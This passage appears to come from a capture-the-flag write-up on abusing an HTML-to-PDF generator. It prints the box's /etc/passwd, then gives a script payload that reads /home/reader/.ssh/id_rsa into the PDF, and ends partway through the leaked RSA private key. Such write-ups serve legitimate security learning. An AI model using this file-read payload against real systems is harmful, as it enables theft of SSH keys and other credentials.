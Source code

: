 Then we generate the collection PDF. It will include the whole `/etc/passwd`
file. We see that the only system user is `reader` (UID 1000).

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/

We need to get a shell on the box and if possible a persistent access (like a
checkpoint) as a password or ssh private key. That's why we just try to get
`/home/reader/.ssh/id_rsa` with the following payload:

    <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

Then we download the PDF file. It contains a SSH private key.

    :::text
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJG8m6UNZyRGj
    7eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0WxtCK0VlQUwxZ6953D16uxl
    RH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd
    /j3xWXHgpaJciHKxeNlr8x6NgbPv4s7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hL
    W1UGx/13fh20cZXA6PK75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7
    hihAbIi73mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+McK
    IrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUItIGcAaz3dTODgD
    O04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJjhPHFI7usIxmgX8Q2/nx3LSUN
    eZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lc
    PzvVGOEGQzkuu4ljFkYz6sZ8GMx6GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmT
    mk3A7jOwke0o8/4FLE2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPl
    SNbc8/ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+SRM/A
    bh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7lskGl3dh4M/2Tgl/g
    YPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+Vo5GVjWTOlfEj74k8hC6GjzWHna0
    pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7mHc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl
    /FOW2AFbkzoNbHT9GpTj5ZfacChBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k
    8J+fVHJl4IjT80uPb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOA
    MYkhsMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCftdBBP0U
    v2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi5bBLnzECgYEAlLiYGz